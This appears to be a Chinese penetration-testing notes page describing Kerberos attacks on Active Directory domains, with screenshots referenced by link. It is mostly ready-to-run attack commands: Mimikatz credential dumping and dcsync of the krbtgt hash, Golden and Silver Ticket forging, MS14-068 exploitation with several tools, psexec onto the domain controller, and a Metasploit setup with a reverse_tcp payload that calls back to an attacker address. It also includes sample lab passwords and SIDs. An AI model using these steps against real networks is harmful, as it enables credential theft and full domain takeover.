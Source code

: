   ### 名词
	KDC(Key Distribution Center)： 密钥分发中心，里面包含两个服务：AS和TGS
	AS(Authentication Server)： 身份认证服务
	TGS(Ticket Granting Server)： 票据授予服务
	TGT(Ticket Granting Ticket): 由身份认证服务授予的票据，用于身份认证，存储在内存，默认有效期为10小时
  ### 黄金票据+Mimikatz
	Golden Ticket伪造TGT(Ticket Granting Ticket)，可以获取任何Kerberos服务权限，
	域控中提取krbtgt的hash
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域内机器是不能访问dc上的文件
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/390.png)

	清空票据
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/391.png)

	域控中获取krbtgt用户的信息
	>privilege::debug
	>mimikatz log "lsadump::dcsync /domain:zone.com /user:krbtgt"
	获取信息：/domain、/sid、/aes256
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/392.png)

	在sub2k8中生成golden ticket
	>mimikatz "kerberos::golden /krbtgt:{ntlmhash} /admin:域管理 /domain:域名 /sid:sid /ticket:gold.kirbi"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/393.png)

	导入
	Mimikatz#kerberos::ptt 123.kirbi
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/394.png)
  ### 白银票据+Mimikatz
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/395.png)

	Silver Ticket是伪造的TGS，只能访问指定服务权限
	域控：dc.zone.com
	域内机器：sub2k8.zone.com
	域内普通用户：y
	域控中导出
	>privilege::debug
	>sekurlsa::logonpasswords
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/396.png)

	Sub2k8伪造票据
	>mimikatz "kerberos::golden /domain:zone.com /sid:{SID} /target:dc.zone.com /service:cifs /rc4:{NTLM} /user:y /ptt"
![image](https://raw.githubusercontent.com/xiaoy-sec/Pentest_Note/master/img/397.png)
  ### MS14-068
  #### 第一种
	https://github.com/abatchy17/WindowsExploits/tree/master/MS14-068
	https://github.com/crupper/Forensics-Tool-Wiki/blob/master/windowsTools/PsExec64.exe
	域控：dc.zone.com/10.1.1.100
	域内机器：sub2k8.zone.com/10.1.1.98
	域内普通用户：y，
	Sub2k8中清除票据
	Mimikatz#kerberos::purge
	>whoami /user查看SID 
	创建ccache票据文件
	> MS14-068.exe -u y@zone.com -p password -s S-1-5-21-2346829310-1781191092-2540298887-1112 -d dc.zone.com
	注入票据
	Mimikatz# Kerberos::ptc c:\xx\xx\xxx.ccache
	psexec无密码登陆
	>PsExec.exe \\dc.xx.com\ cmd.exe
  #### 第二种
	需要知道用户 SID
	远程方法
  	rpcclient >lookupnames john.smith
	john.smith S-1-5-21-2923581646-3335815371-2872905324-1107 (User: 1)
	本地方法
	>wmic useraccount get name,sid
	Administrator  S-1-5-21-3415849876-833628785-5197346142-500   
	Guest          S-1-5-21-3415849876-833628785-5197346142-501   
	Administrator  S-1-5-21-297520375-2634728305-5197346142-500   
	Guest          S-1-5-21-297520375-2634728305-5197346142-501   
	krbtgt         S-1-5-21-297520375-2634728305-5197346142-502   
	lambda         S-1-5-21-297520375-2634728305-5197346142-1110 
	powerview
	>Convert-NameToSid high-sec-corp.localkrbtgt
	S-1-5-21-2941561648-383941485-1389968811-502
	metasploit使用或生成票证pykek
```bash
Metasploit: auxiliary/admin/kerberos/ms14_068_kerberos_checksum
   Name      Current Setting                                Required  Description
   ----      ---------------                                --------  -----------
   DOMAIN    LABDOMAIN.LOCAL                                yes       The Domain (upper case) Ex: DEMO.LOCAL
   PASSWORD  P@ssw0rd                                       yes       The Domain User password
   RHOSTS    10.10.10.10                                    yes       The target address range or CIDR identifier
   RPORT     88                                             yes       The target port
   Timeout   10                                             yes       The TCP timeout to establish connection and read data
   USER      lambda                                         yes       The Domain User
   USER_SID  S-1-5-21-297520375-2634728305-5197346142-1106  yes       The Domain User SID, Ex: S-1-5-21-1755879683-3641577184-3486455962-1000
```
	>git clone https://github.com/SecWiki/windows-kernel-exploits
	>python ./ms14-068.py -u <userName>@<domainName> -s <userSid> -d <domainControlerAddr> -p <clearPassword>
	>python ./ms14-068.py -u darthsidious@lab.adsecurity.org -p TheEmperor99! -s S-1-5-21-1473643419-774954089-2222329127-1110 -d adsdc02.lab.adsecurity.org
	>python ./ms14-068.py -u john.smith@pwn3d.local -s S-1-5-21-2923581646-3335815371-2872905324-1107 -d 192.168.115.10
	>python ms14-068.py -u user01@metasploitable.local -d msfdc01.metasploitable.local -p Password1 -s S-1-5-21-2928836948-3642677517-2073454066-1105
	使用mimikatz加载票证
	>mimikatz.exe "kerberos::ptc c:\temp\TGT_darthsidious@lab.adsecurity.org.ccache"
	如果时钟有偏差，请使用来自nmap的脚本clock-skew.nse
	Linux> $ nmap -sV -sC 10.10.10.10
	clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s
	Linux> sudo date -s "14 APR 2015 18:25:16" 
	Windows> net time /domain /set
  ### Mimikatz+MSF
	>whoami /user 查看SID
	msf >use auxiliary/admin/kerberos/ms14_068_kerberos_checksum
	msf >set domain 域名
	msf >set password 密码
	msf >set rhost 域控机器
	msf >set user 用户
	msf >set user_sid sid
	得到.bin文件
	>apt-get install krb5-user
	上传mimikatz和bin文件
	Mimikatz# Kerberos::clist “xxxx.bin” /export
	生成kirbi文件
	Meterpreter >load kiwi
	Meterpreter >download c:/wmpub/xxxxxx.kirbi /tmp/
	注入票据
	Meterpreter >kerberos_ticket_use /tmp/xxxxxx.kirbi
	>use exploit/windows/local/current_user_psexec
	>set TECHNIQUE PSH
	>set RHOST dc.xx.com
	>set payload windows/meterpreter/reverse_tcp
	>set LHOST 192.168.1.1
	>set session 1
	>exploit
  ### goldenPac.py
	kali下
	>apt-get install krb5-user
	>goldenPac.py –dc-ip 10.1.1.100 –target-ip 10.1.1.100 zone.com/y:password@dc.zone.com
